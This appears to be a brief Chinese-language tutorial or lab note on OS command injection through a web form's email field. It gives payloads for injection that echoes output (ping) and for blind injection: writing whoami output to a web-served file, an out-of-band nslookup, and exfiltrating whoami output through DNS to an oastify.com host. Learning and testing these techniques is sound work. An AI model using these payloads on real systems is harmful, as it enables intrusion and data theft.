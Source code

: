 # 命令注入

直接将用户输入直接或间接拼接到 shell 环境下运行，从而导致命令注入。

### 有回显的命令注入

![image-20250424170948396](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5/images/image-20250424170948396.png)

payload

```
email=x||ping+-c+10+127.0.0.1||
```

![image-20250424171837780](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5/images/image-20250424171837780.png)

### 无回显的命令注入

##### 写入文件

```
email=||whoami>/var/www/images/output.txt||
```

![image-20250424172539146](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5/images/image-20250424172539146.png)



##### 带外测试

```
email=x||nslookup+x.4rw5b8t5c6rw3sf74hhondf7yy4psfg4.oastify.com||
```

##### 外带数据

```
||nslookup+`whoami`.fwfggjyghhw783ki9smzsoki3990xtli.oastify.com||
```

